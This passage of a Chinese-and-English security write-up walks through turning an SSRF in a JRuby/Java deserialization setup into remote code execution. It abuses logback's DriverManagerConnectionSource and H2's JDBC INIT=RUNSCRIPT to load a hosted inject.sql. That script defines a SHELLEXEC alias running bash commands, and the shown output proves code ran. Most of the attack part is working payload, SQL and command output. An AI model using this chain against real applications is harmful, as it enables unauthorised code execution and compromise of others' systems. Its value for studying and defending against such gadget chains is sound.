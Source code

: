 
```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource $ nc -lv 8080 rce", {"url":"jdbc:h2:tcp://localhost:8080/~/test"}]"  ~/test#jdbc:h2:tcp://localhost:8080/~/test_
# Mapping
# Serializing
# objectified
```

---

## 0x04 从SSRF到RCE

这些攻击场景都与DoS以及SSRF有关,可能影响应用的安全性

将SSRF转换成完成的RCE攻击链。
- to gain full code execution in the context of the application
- employed the capability of `loading the H2 JDBC Driver`
  - H2
    - a super fast SQL database 
    - usually employed as **in memory replacement** for full-fledged SQL Database Management Systems 
      - such as Postgresql, MSSql, MySql or OracleDB
    - easily configurable and supports many modes 
      - such as in memory, on file, and on remote servers. 
    - **can run SQL scripts from the JDBC URL**
      - which for have an in-memory database to support `init migrations`. 

> This alone won’t allow execute Java code inside the JVM context. 
> but H2 was implemented inside the JVM, has the capability to `specify custom aliases containing java code`. 
> - **which can abuse to execute arbitrary code**.

通过python构建一个简单的HTTP服务器
- `python -m SimpleHttpServer`
- 托管如下inject.sql INIT文件：

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')
```

然后通过如下方式运行RCE：

```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]"

$ cat exploited.txt
uid=501(...) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
```

---